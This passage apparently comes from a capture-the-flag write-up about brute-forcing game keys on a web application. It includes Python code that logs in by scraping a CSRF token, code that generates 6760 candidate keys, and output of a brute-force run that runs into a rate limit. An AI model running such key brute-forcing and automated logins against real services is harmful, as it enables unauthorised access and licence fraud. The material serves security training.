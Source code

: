 In order to submit a key, we first have to find the CSRF-token. For this we can use [BeautifulSoup](https://www.crummy.com/software/BeautifulSoup/) to parse the HTML. After submitting the key, we have to parse the output and see what response we got. As the game-key is linked to a user-account, we have to login as a user. For this I implemented a login functionality or the ability to use a cookie (if we want to execute as the admin instead).

```python
def login(session:requests.Session, email:str, password:str) -> requests.Session:
    res = session.get(f"{url}/login", proxies=proxies)
    soup = BeautifulSoup(res.text, features='lxml')
    token = soup.find('input',{'type':'hidden'}).attrs["value"]
    data = {'_token':token,'email':email, 'password':password}
    resp = session.post(f"{url}/login", proxies=proxies, data=data)
    return "dashboard" in resp.url
```

The login function uses the inputted email and password to login.

#### Additional: Bruteforcing the group3

Theoretically a user could also bruteforce the group3 by trying out every possible combination. However, this results into a lot more keys.

```python
def gen_all_keys() -> list:
    keys = []
    values = ascii_uppercase
    possible = product(values, repeat=2)

    for group3 in possible:
        for i in range(0, 10):
            test = "XP" + "".join(group3) + str(i)
            key = f"KEY01-0H0H0-{test}-GAME1-"
            checksum = calc_checksum(key)
            key += str(checksum)
            keys.append(key)
    return keys
```

We can check how many keys there are, if we would bruteforce:

```python
>>> print(f"Generated {len(gen_all_keys())} possible keys!")
Generated 6760 possible keys!
```

If we would bruteforce all possible keys (`6760`) we would get 112-times more keys than if we would consider duplicates (`60`).

When now trying to bruteforce all keys, sooner or later we will get blocked for 60 seconds. Theoretically it would still be possible to bruteforce the key, however it will take quite some time and if the 30-minute time-window is missed, the magic_number will be rotated and the bruteforce would have to be restarted.

```python
root@void:~# python3 gen_key.py --email chronos@mail.com --password P@ssw0rd
[*] Testing 6760 possible keys!
[0.84%]  Trying key: KEY01-0H0H0-XPAF6-GAME1-1306
[!] Got blocked! Waiting 60 seconds and then retrying...
```
